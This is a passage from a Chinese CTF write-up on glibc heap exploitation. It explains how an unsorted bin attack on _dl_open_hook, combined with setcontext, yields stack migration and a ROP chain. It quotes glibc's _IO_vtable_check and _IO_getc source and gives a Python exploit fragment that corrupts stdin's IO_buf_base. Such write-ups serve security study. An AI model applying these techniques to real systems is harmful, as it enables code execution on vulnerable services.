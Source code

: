 利用漏洞2泄露libc后，如何执行ROP链？

这里利用了dl_open_hook，当IO_FILE结构调用相应的vtable函数时，会对其进行检测，在检测函数中会判断dl_open_hook是否为空，不为空时会执行(*dlopen_mode)()，dlopen_mode是dl_open_hook结构的第一个字段，dlopen_mode是指向函数指针的指针。

利用unsorted_bin攻击dl_open_hook后，将会执行main_arena+88指向的gadget，利用该gadget和setcontext最终可以实现栈迁移和执行ROP链。

```c
void attribute_hidden
_IO_vtable_check (void)
{
  if (flag == &_IO_vtable_check)
    return;

  /* In case this libc copy is in a non-default namespace, we always
     need to accept foreign vtables because there is always a
     possibility that FILE * objects are passed across the linking
     boundary.  */
  {
    Dl_info di;
    struct link_map *l;
    if (_dl_open_hook != NULL
        || (_dl_addr (_IO_vtable_check, &di, &l, NULL) != 0
            && l->l_ns != LM_ID_BASE))
      return;
  }
}
```

## 代码实现

**修改IO_buf_base**

利用漏洞1，将IO_buf_base最低地址修改为\x00。这里输入的字符，用于后续ORW中打开的文件名。

```python
#1.modify stdin buffer
ru("Size :")
sl(str(0x6998e8)) #local
#sl(str(0x6c28e8))
ru("Size :")
sl(str(0x300000))
ru("Content :")
sl("./flag\x00")
```

**泄露libc**

利用漏洞2，来泄露libc，具体的代码实现前，先让我们深入了解一下IO_getc和scanf两个函数，在缓存机制上取值的行为。

### IO_getc

IO_getc首先会锁住IO_FILE结构，然后调用 _IO_getc_unlocked (fp)。

```c
int
_IO_getc (FILE *fp)
{
  int result;
  CHECK_FILE (fp, EOF);
  _IO_acquire_lock (fp);
  result = _IO_getc_unlocked (fp);
  _IO_release_lock (fp);
  return result;
}
```

